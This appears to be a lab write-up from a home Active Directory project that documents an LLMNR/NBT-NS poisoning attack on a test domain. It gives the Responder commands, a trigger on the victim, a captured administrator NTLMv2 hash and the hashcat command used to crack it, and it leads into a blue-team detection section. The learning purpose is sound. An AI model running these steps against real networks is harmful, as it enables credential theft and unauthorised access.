




# 05 - LLMNR/NBT-NS Poisoning Attack Execution
This document covers the execution of an LLMNR/NBT-NS poisoning attack against the `corp.local` domain, performed from the Kali Linux VM using Responder.

## 1. Target & Attacker Context
- **Victim / Domain Controller:** Windows Server 2025, `DC01` (192.168.10.10, `corp.local`)
- **Attacker machine:** Kali Linux (192.168.10.20, `eth1`)
- **Tool:** Responder 3.1.7.0

Unlike Kerberoasting, this attack requires no prior domain credentials. It is passive/opportunistic: Responder listens for broadcast name-resolution requests (LLMNR, NBT-NS, mDNS) generated whenever DNS resolution fails on a client, and answers them, tricking the client into authenticating to the attacker.

## 2. Confirming Broadcast Traffic (Analyze Mode)
Before poisoning, Responder was run in analyze mode (`-A`) to passively confirm LLMNR/NBT-NS/mDNS broadcast traffic reaches the attacker NIC, without injecting any poisoned responses:

```bash
sudo responder -I eth1 -A
```

> [+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.

Analyze mode confirms broadcast resolution traffic actually reaches the attacker NIC before switching to active poisoning.



## 3. Triggering Name Resolution Failure on the Victim
On DC01, a nonexistent share was accessed, forcing DNS resolution to fail and triggering fallback to LLMNR/NBT-NS broadcast:

```powershell
ls \\losowanazwa123\test
```

> ls : Cannot find path '\\losowanazwa123\test' because it does not exist.



## 4. Poisoning and Capturing the Hash
With Responder switched to active poisoning mode:

```bash
sudo responder -I eth1
```

Responder answered the broadcast request and captured an NTLMv2-SSP authentication attempt:

```
[SMB] NTLMv2-SSP Client   : fe80::3bd4:e592:6bfc:ba0e
[SMB] NTLMv2-SSP Username : CORP\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::CORP:a0ba3c7a656d1f6b:B1854E3DBDC7C38787E6FA35070BF24D:...
```



The captured hash belongs to `CORP\Administrator`, not a low-privilege account — LLMNR poisoning doesn't target a specific user, it just grabs whichever credentials happen to attempt resolution next.

## 5. Offline Cracking with Hashcat
The captured hash was saved to a file and cracked offline using Hashcat mode `5600` (NetNTLMv2):

```bash
hashcat -m 5600 -a 0 admin_hash.txt /usr/share/wordlists/rockyou.txt --force
```

Result:
```
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Recovered plaintext password: `[REDACTED]`
Time to crack: ~17 seconds



The recovered password matches the one used by `jkowalski` in `04-kerberoasting-attack.md` — password reuse across accounts of different privilege levels, which opens the door to lateral movement or privilege escalation from a single compromised credential.

## Status
✅ LLMNR/NBT-NS poisoning attack successfully executed end-to-end: broadcast traffic confirmation → client trigger → hash capture → offline password recovery.

**Next step:** detection from a Blue Team perspective (see `06-detection-blue-team.md`).
